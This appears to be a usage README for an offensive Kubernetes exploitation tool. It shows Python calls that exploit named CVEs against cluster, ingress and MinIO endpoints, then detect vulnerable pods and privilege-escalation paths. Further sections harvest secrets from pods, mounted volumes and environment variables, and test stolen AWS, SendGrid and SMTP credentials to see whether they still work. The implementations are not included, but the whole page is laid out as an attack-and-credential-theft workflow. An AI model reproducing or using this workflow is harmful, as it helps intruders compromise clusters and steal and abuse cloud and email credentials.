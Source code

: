 ### CVE-2025-24884: Audit Log Exposure
```python
result = await exploiter.exploit_cve_2025_24884("https://cluster:6443")
```

### CVE-2025-24514: Ingress-NGINX Injection
```python
ingress_endpoints = ["https://cluster:6443/api/v1/ingresses"]
result = await exploiter.exploit_cve_2025_24514(ingress_endpoints)
```

### CVE-2025-32963: MinIO STS Misconfiguration
```python
minio_endpoints = ["https://minio:9000"]
result = await exploiter.exploit_cve_2025_32963(minio_endpoints)
```

## 🔍 Vulnerability Detection

```python
# Detect vulnerable pods
vulnerable_pods = await exploiter.detect_vulnerable_pods("https://cluster:6443")

for pod in vulnerable_pods:
    print(f"Pod: {pod.name}")
    print(f"Vulnerabilities: {pod.vulnerabilities}")
    print(f"Risk Score: {pod.risk_score}")
    
    # Check escalation paths
    escalation_paths = await exploiter.check_privilege_escalation_paths(pod_spec)
```

## 🔐 Secret Harvesting

```python
# Extract secrets from specific pod
secrets = await exploiter.scrape_pod_secrets("pod-name", "namespace", "https://cluster:6443")

# Extract from mounted volumes
volume_secrets = await exploiter.extract_mounted_volumes(pod_spec)

# Parse environment variables
env_secrets = await exploiter.parse_environment_variables(env_vars)
```

## ☁️ Cloud Validation

```python
# AWS validation (without boto3)
aws_result = await exploiter.validate_aws_comprehensive(
    access_key="AKIA...", 
    secret_key="wJal...",
    session_token="optional"
)

# SendGrid validation
sendgrid_results = await exploiter.validate_sendgrid_credentials(["SG.api.key"])

# SMTP validation
smtp_configs = [{"server": "smtp.gmail.com", "username": "user", "password": "pass"}]
smtp_results = await exploiter.test_smtp_credentials(smtp_configs)
```
